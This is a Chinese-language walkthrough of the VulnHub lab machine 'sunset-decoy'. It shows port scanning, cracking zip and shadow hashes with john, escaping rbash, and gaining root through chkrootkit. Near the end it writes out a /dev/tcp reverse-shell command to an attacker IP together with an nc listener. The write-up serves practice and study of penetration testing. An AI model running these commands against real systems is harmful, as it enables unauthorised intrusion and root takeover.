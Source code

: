 

## 靶机地址

https://www.vulnhub.com/entry/sunset-decoy,505/

## 信息收集

全端口扫描发现服务，并扫描其版本

```shell
sudo masscan -p1-65535,U:1-65535 172.16.33.40 --rate=5000 -e tun0
sudo nmap -p22,80 -sV -A 172.16.33.40
```

| 端口 | 服务   | 利用点               | 结果 |
| ---- | ------ | -------------------- | ---- |
| 80   | apache | save.zip             | 待定 |
| 22   | Ssh    | 暂无，必要时考虑爆破 | 暂无 |

访问80端口，将save.zip下载下来

![](https://cos.kevinc.ltd/file/download?fileId=1074)

使用`john`破解压缩包密码，得到`etc`

```shell
zip2john save.zip > save.hash
john save.hash --wordlist=rockyou.txt
```



`etc`中有`passwd`和`shadow`,可以结合破解

```shell
unshadow passwd shadow > unshadow
john --rules --wordlists=rockyou.txt unshadow
```

可以破解出某个账户 ( 账户名一长串，不想打了，以guest代替吧！) 的密码为`server`



`ssh`进去后查看文件

![](https://cos.kevinc.ltd/file/download?fileId=1075)

> 后期截图，有一些是我后面传上去的文件，可以看到有普通用户proof文件user.txt，但由于shell为rbash，需要绕过



## Get shell

`shell`为`rbash`, 所以需要绕过

```shell
-t "bash --no-profile" # ssh后面加
```

进去以后查看命令无法使用，查看环境变量，`echo $PATH`

![](https://cos.kevinc.ltd/file/download?fileId=1076)

当前环境变量为家目录，无法直接使用命令

```shell
# 改为
PATH=/usr/local/sbin/:/usr/sbin/bin/:/usr/sbin/:/usr/bin/://sbin/:/bin/
```

可查看`user.txt`

![](https://cos.kevinc.ltd/file/download?fileId=1077)



## 提权

上传`linpeas.sh`, 赋予执行权限后运行

```shell
可疑提权向量（尽量忽略内核提权）：

数据库配置文件： /etc/mysql/mariadb.cnf 可读

suid权限：

pkexec 利用没成功
sudo  查看版本是否有漏洞  漏洞需要管理员权限修改文件

SV502/log.txt

```

发现`SV502/logs/log.txt` 日志文件里有提到`chkrootkit`，该文件用于检测系统中是否被安装rootkit的

主目录中存在`honeypot.decoy`，为`root`用户所有，尝试运行

![](https://cos.kevinc.ltd/file/download?fileId=1078)

**5**是`AV扫描`,猜测跟`chkrootkit`有关，尝试运行

使用`ps aux | grep chkrootkit`，知道`chkrootkit`为`root`运行

![](https://cos.kevinc.ltd/file/download?fileId=1081)

使用`searchsploit chkrootkit`查看利用方法

![](https://cos.kevinc.ltd/file/download?fileId=1080)

利用方法很简单

```shell
echo "bash -c 'exec bash -i &>/dev/tcp/10.8.0.86/4444 <&1'" > /tmp/update
./honeypot.decoy

#kali
nc -nvlp 4444
```

<img src="https://cos.kevinc.ltd/file/download?fileId=1083" style="zoom:50%;" />